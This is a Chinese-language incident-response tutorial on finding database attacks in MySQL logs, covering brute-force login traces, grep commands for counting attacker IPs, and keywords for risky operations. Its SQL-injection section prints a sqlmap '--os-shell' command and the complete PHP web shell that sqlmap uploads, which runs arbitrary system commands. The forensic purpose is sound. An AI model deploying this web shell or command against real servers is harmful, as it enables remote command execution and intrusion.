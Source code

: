 常见的数据库攻击包括弱口令、SQL注入、提升权限、窃取备份等。对数据库日志进行分析，可以发现攻击行为，进一步还原攻击场景及追溯攻击源。


# 0x01 Mysql日志分析
general query log能记录成功连接和每次执行的查询，我们可以将它用作安全布防的一部分，为故障分析或黑客事件后的调查提供依据。
```
1、查看log配置信息
show variables like '%general%';
2、开启日志
SET GLOBAL general_log = 'On';
3、指定日志文件路径
#SET GLOBAL general_log_file = '/var/lib/mysql/mysql.log';
```

比如，当我访问 /test.php?id=1，此时我们得到这样的日志：
```
190604 14:46:14       14 Connect    root@localhost on 
           14 Init DB    test
           14 Query    SELECT * FROM admin WHERE id = 1
           14 Quit  `
```

我们按列来解析一下：
```
第一列:Time，时间列，前面一个是日期,后面一个是小时和分钟，有一些不显示的原因是因为这些sql语句几乎是同时执行的,所以就不另外记录时间了。
第二列:Id，就是show processlist出来的第一列的线程ID,对于长连接和一些比较耗时的sql语句,你可以精确找出究竟是那一条那一个线程在运行。
第三列:Command，操作类型，比如Connect就是连接数据库，Query就是查询数据库(增删查改都显示为查询)，可以特定过虑一些操作。
第四列:Argument，详细信息，例如 Connect    root@localhost on 意思就是连接数据库，如此类推,接下面的连上数据库之后,做了什么查询的操作。
```


## 0x02 登录成功/失败
我们来做个简单的测试吧，使用我以前自己开发的弱口令工具来扫一下，字典设置比较小，2个用户，4个密码，共8组。<br />![log-5-1.png](_img\05-应急响应/1656919052336-b6e90c4a-9f61-4b96-834e-4b465bf06fea.png)

MySQL中的log记录是这样子：
```
Time                 Id        Command         Argument

190601 22:03:20	   98 Connect	root@192.168.204.1 on 
		   98 Connect	Access denied for user 'root'@'192.168.204.1' (using password: YES)
		  103 Connect	mysql@192.168.204.1 on 
		  103 Connect	Access denied for user 'mysql'@'192.168.204.1' (using password: YES)
		  104 Connect	mysql@192.168.204.1 on 
		  104 Connect	Access denied for user 'mysql'@'192.168.204.1' (using password: YES)
		  100 Connect	root@192.168.204.1 on 
		  101 Connect	root@192.168.204.1 on 
		  101 Connect	Access denied for user 'root'@'192.168.204.1' (using password: YES)
		   99 Connect	root@192.168.204.1 on 
		   99 Connect	Access denied for user 'root'@'192.168.204.1' (using password: YES)
		  105 Connect	mysql@192.168.204.1 on 
		  105 Connect	Access denied for user 'mysql'@'192.168.204.1' (using password: YES)
		  100 Query	set autocommit=0
		  102 Connect	mysql@192.168.204.1 on 
		  102 Connect	Access denied for user 'mysql'@'192.168.204.1' (using password: YES)
		  100 Quit	`
```

你知道在这个口令猜解过程中，哪个是成功的吗？

利用爆破工具，一个口令猜解成功的记录是这样子的：
```
190601 22:03:20     100 Connect	root@192.168.204.1 on 
	   100 Query	set autocommit=0
	   100 Quit
```

但是，如果你是用其他方式，可能会有一点点不一样的哦。

Navicat for MySQL登录：
```
190601 22:14:07	  106 Connect	root@192.168.204.1 on 
		         106 Query	SET NAMES utf8
		         106 Query	SHOW VARIABLES LIKE 'lower_case_%'
		         106 Query	SHOW VARIABLES LIKE 'profiling'
		         106 Query	SHOW DATABASES
```

命令行登录：
```
190601 22:17:25	  111 Connect	root@localhost on 
		         111 Query	select @@version_comment limit 1
190601 22:17:56	  111 Quit
```

这个差别在于，不同的数据库连接工具，它在连接数据库初始化的过程中是不同的。通过这样的差别，我们可以简单判断出用户是通过连接数据库的方式。

另外，不管你是爆破工具、Navicat for MySQL、还是命令行，登录失败都是一样的记录。

登录失败的记录：
```
102 Connect	mysql@192.168.204.1 on 
102 Connect	Access denied for user 'mysql'@'192.168.204.1' (using password: YES)
```

利用shell命令进行简单的分析：
```
#有哪些IP在爆破？
grep  "Access denied" mysql.log |cut -d "'" -f4|uniq -c|sort -nr
     27 192.168.204.1

#爆破用户名字典都有哪些？
grep  "Access denied" mysql.log |cut -d "'" -f2|uniq -c|sort -nr
     13 mysql
     12 root
      1 root
      1 mysql
```

在日志分析中，特别需要注意一些敏感的操作行为，比如删表、备库，读写文件等。关键词：drop table、drop function、lock tables、unlock tables、load_file() 、into outfile、into dumpfile。

敏感数据库表：SELECT _ from mysql.user、SELECT _ from mysql.func


# 0x03  SQL注入入侵痕迹
在利用SQL注入漏洞的过程中，我们会尝试利用sqlmap的--os-shell参数取得shell，如操作不慎，可能留下一些sqlmap创建的临时表和自定义函数。我们先来看一下sqlmap os-shell参数的用法以及原理：

1、构造一个SQL注入点，开启Burp监听8080端口<br />`sqlmap.py -u http://192.168.204.164/sql.php?id=1 --os-shell --proxy=http://127.0.0.1:8080`

HTTP通讯过程如下：<br />![log-5-3.png](_img\05-应急响应/1656919075967-5f78b92f-ae44-42a3-b1db-d5d98494a707.png)

创建了一个临时文件tmpbwyov.php，通过访问这个木马执行系统命令，并返回到页面展示。
```
<?php $c=$_REQUEST["cmd"];@set_time_limit(0);@ignore_user_abort(1);@ini_set('max_execution_time',0);$z=@ini_get('disable_functions');if(!empty($z)){$z=preg_replace('/[, ]+/',',',$z);$z=explode(',',$z);$z=array_map('trim',$z);}else{$z=array();}$c=$c." 2>&1\n";function f($n){global $z;return is_callable($n)and!in_array($n,$z);}if(f('system')){ob_start();system($c);$w=ob_get_contents();ob_end_clean();}elseif(f('proc_open')){$y=proc_open($c,array(array(pipe,r),array(pipe,w),array(pipe,w)),$t);$w=NULL;while(!feof($t[1])){$w.=fread($t[1],512);}@proc_close($y);}elseif(f('shell_exec')){$w=shell_exec($c);}elseif(f('passthru')){ob_start();passthru($c);$w=ob_get_contents();ob_end_clean();}elseif(f('popen')){$x=popen($c,r);$w=NULL;if(is_resource($x)){while(!feof($x)){$w.=fread($x,512);}}@pclose($x);}elseif(f('exec')){$w=array();exec($c,$w);$w=join(chr(10),$w).chr(10);}else{$w=0;}print "<pre>".$w."</pre>";?>`
```

创建了一个临时表sqlmapoutput，调用存储过程执行系统命令将数据写入临时表，然后取临时表中的数据展示到前端。

通过查看网站目录中最近新建的可疑文件，可以判断是否发生过sql注入漏洞攻击事件。

检查方法：<br />1、检查网站目录下，是否存在一些木马文件：<br />![log-5-4.png](_img\05-应急响应/1656919105342-141fee66-82e9-4983-a2bf-1cb6393cb6a7.png)

2、检查是否有UDF提权、MOF提权痕迹

检查目录是否有异常文件<br />mysql\lib\plugin<br />c:/windows/system32/wbem/mof/

检查函数是否删除<br />`select * from mysql.func`

3、结合web日志分析。
